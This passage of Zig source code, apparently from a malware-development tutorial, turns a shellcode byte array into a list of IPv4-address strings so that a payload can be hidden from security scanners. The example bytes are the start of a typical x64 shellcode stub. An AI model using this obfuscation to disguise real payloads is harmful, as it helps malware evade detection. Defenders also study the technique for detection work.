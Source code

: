 ```zig title="main.zig"
    // We will read one shellcode byte at a time, when the total is 4, begin generating the IPv4 address
    // The variable 'c' is used to store the number of bytes read. By default, starts at 4.
    var c: usize = 4;
    var counter: usize = 0;

    var i: usize = 0;
    while (i < shellcode.len) : (i += 1) {
        // Track the number of bytes read and when they reach 4 we enter this if statement to begin generating the IPv4 address
        if (c == 4) {
            counter += 1;

            // Generating the IPv4 address from 4 bytes which begin at i until [i + 3]
            const ip = try generateIpv4(allocator, shellcode[i], shellcode[i + 1], shellcode[i + 2], shellcode[i + 3]);
            defer allocator.free(ip); // Free the allocated string when done

            if (i == shellcode.len - 4) {
                // Printing the last IPv4 address
                try stdout.print("\"{s}\"", .{ip});
                break;
            } else {
                // Printing the IPv4 address
                try stdout.print("\"{s}\", ", .{ip});
            }

            c = 1;

            // Optional: To beautify the output on the console
            if (counter % 8 == 0) {
                try stdout.print("\n\t", .{});
            }
        } else {
            c += 1;
        }
    }

    try stdout.print("\n}};\n\n", .{});
    return true;
}

pub fn main() !void {
    // Create an arena allocator that frees all allocations at once at the end
    var arena = std.heap.ArenaAllocator.init(std.heap.page_allocator);
    defer arena.deinit();

    const allocator = arena.allocator();
    // Example shellcode (must be a multiple of 4 bytes)
    const shellcode = [_]u8{
        0xFC, 0x48, 0x83, 0xE4, 0xF0, 0xE8, 0xC0, 0x00, 0x00, 0x00, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51, // Add more shellcode here if needed
    };

    // Generate and print the IPv4 representation
    _ = try generateIpv4Output(allocator, &shellcode);
}
```
